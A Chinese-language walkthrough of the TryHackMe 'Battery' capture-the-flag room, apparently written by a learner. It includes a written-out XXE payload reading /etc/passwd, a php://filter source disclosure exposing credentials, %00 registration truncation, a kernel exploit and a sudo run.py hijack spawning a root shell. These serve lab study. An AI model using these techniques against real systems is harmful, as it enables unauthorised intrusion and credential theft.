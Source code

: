 # Battery
> URL :　https://tryhackme.com/room/battery

IP : 10.10.207.162

## Recon
- 掃 Port
	- `rustscan -a 10.10.207.162 -r 1-65535`
		- ![](https://i.imgur.com/YI7brFj.png)
		- 發現有開
			- 22
			- 80
	- `nmap -A -p22,80 10.10.207.162`
		- ![](https://i.imgur.com/fpTOJSl.png)
## Web
- 觀察首頁
	- ![](https://i.imgur.com/kzK5QSI.png)
- 掃路徑
	- ![](https://i.imgur.com/zW9T06O.png)
	- `/forms`
		- ![](https://i.imgur.com/0BtjlCh.png)
	- `/admin.php`
		- ![](https://i.imgur.com/Yt1XqNk.png)
- 發現 `/forms` 把 Header 拔掉就不會自動跳轉
	- ![](https://i.imgur.com/dBIg21Q.png)
	- 裡面傳送的資料是 XML ，可能可以 XXE
		- ![](https://i.imgur.com/MnxLcgL.png)
	```javascript=
	function XMLFunction(){
		var xml = '' +
			'<?xml version="1.0" encoding="UTF-8"?>' +
			'<root>' +
			'<name>' + $('#name').val() + '</name>' +
			'<search>' + $('#search').val() + '</search>' +
			'</root>';
		var xmlhttp = new XMLHttpRequest();
		xmlhttp.onreadystatechange = function () {
			if(xmlhttp.readyState == 4){
				console.log(xmlhttp.readyState);
				console.log(xmlhttp.responseText);
				document.getElementById('errorMessage').innerHTML = xmlhttp.responseText;
			}
		}
		xmlhttp.open("POST","forms.php",true);
		xmlhttp.send(xml);
	};
	```
	- 但沒有登入都失敗
- 在 `register.php` 註冊一組帳密
	- `meow`
	- `ABC`
	- `meow`
	- ![](https://i.imgur.com/z1niZ8X.png)
	- 註冊成功
		- ![](https://i.imgur.com/hqNbHMh.png)
- 嘗試登入
	- ![](https://i.imgur.com/Lo6rA6Z.png)
	- 使用介面上的功能
		- ![](https://i.imgur.com/o5zsYOs.png)
		- 發現不能使用
- 再註冊一組
	- `meow1`
	- `DEF`
	- `meow1`
- 掃目錄
	- ![](https://i.imgur.com/4zXmQmN.png)
	- 發現一個 `/report`
- 載下來發現是一個 ELF
	- ![](https://i.imgur.com/tQ07xT1.png)
## Reverse
- 選單
	- ![](https://i.imgur.com/0fPOAwu.png)
- 使用者
	- ![](https://i.imgur.com/45VYQ51.png)
- 字串比較
	- ![](https://i.imgur.com/e5GzGAk.png)
- 更新
	- ![](https://i.imgur.com/LWMnjwK.png)
	- 這邊看到 `admin@bank.a` 滿可疑的
## Web
- 嘗試註冊 `admin@bank.a`
	- ![](https://i.imgur.com/ETydBcl.png)
	- ![](https://i.imgur.com/z3FWmBy.png)
		- 被嘲諷ㄌQQ
		- 但這代表應該確實跟這個有關!!
- 用 Burp 後面加上 `%00` 截斷
	- ![](https://i.imgur.com/Rz7ZLOk.png)
- 註冊成功
	- ![](https://i.imgur.com/xpZQPEi.png)
- 後台亂輸入都會噴錯
	- ![](https://i.imgur.com/1PJTJn7.png)
- 重新試著 XXE
	- ![](https://i.imgur.com/jmnfWHX.png)
```javascript=
function XMLFunction(){
    var xml = '' +
        '<?xml version="1.0" encoding="UTF-8"?>\n' +
		'<!DOCTYPE a [ <!ENTITY b SYSTEM "file:///etc/passwd"> ]>\n' +
        '<root>' +
        '<name>' + "0" + '</name>' +
        '<search>' + "&b;" + '</search>' +
        '</root>';
    var xmlhttp = new XMLHttpRequest();
    xmlhttp.onreadystatechange = function () {
        if(xmlhttp.readyState == 4){
            console.log(xmlhttp.readyState);
            console.log(xmlhttp.responseText);
        }
    }
    xmlhttp.open("POST","forms.php",true);
    xmlhttp.send(xml);
};
XMLFunction();
```
- 可以讀檔
	- ![](https://i.imgur.com/Wfam6PO.png)
```
cyber:x:1000:1000:cyber,,,:/home/cyber:/bin/bash
mysql:x:107:113:MySQL Server,,,:/nonexistent:/bin/false
yash:x:1002:1002:,,,:/home/yash:/bin/bash
```
- 看起來有興趣的使用者
	- `cyber`
	- `yash`
- 讀取原始碼
	- `php://filter/convert.base64-encode/resource=/var/www/html/acc.php`
	- ![](https://i.imgur.com/EXkrQXL.png)
	- 找到註解上的密碼
		- `//MY CREDS :- cyber:super#secure&password!`
## SSH
- ![](https://i.imgur.com/WhKKIPs.png)
	- 順利連上
- 取得 Base Flag
	- ![](https://i.imgur.com/3aOe5eP.png)
## 提權
- 起手式 `sudo -l`
	- ![](https://i.imgur.com/OF32tzf.png)
	- 發現可以用 root 執行一個 `run.py`
- `run.py`
	- ![](https://i.imgur.com/fJIS0Oe.png)
	- 但我們沒有權限讀取他 QQ
- 觀察原始碼
	- `admin.php`
		- 找到 mysql 的帳密
- Dump Mysql
	- mysqldump -u root -h 127.0.0.1 -p details > a.sql
	- ![](https://i.imgur.com/6SQ3wdb.png)
	- ![](https://i.imgur.com/EotjMMo.png)
	- 看到一組密碼
		- ![](https://i.imgur.com/amFWjRV.png)
		- `I_know_my_password`
	- 但好像就沒有什麼進展了 QQ
- 跑 Linpeas
	- ![](https://i.imgur.com/W4vdGzF.png)
	- 發現 Linux Kernel 好像有點舊，可以用 Exploit
	- https://www.exploit-db.com/exploits/37292
- 試著載下來編譯執行
	- ![](https://i.imgur.com/H9YKMfY.png)
	- 就成功 Root ㄌ
- Flag2
	- ![](https://i.imgur.com/y95l3c8.png)
- Root Flag
	- ![](https://i.imgur.com/fAVwuni.png)
	- ![](https://i.imgur.com/GBtAZjF.png)

## 另外一種提權法
- 剛剛可以用 sudo 執行 `run.py`
	- 但是沒有權限可以讀取
- 但因為這是我的家目錄，所以我可以改檔名、新增檔案
	- ![](https://i.imgur.com/Q9fWApP.png)
- 所以自己創一個 `run.py`
	- `import os`
	- `os.system("/bin/bash")`
- 再 sudo 它
	- ![](https://i.imgur.com/6O92JvY.png)
	- 也可以順利提權




## 學到ㄌ
%00 截斷
XXE 記得加 ;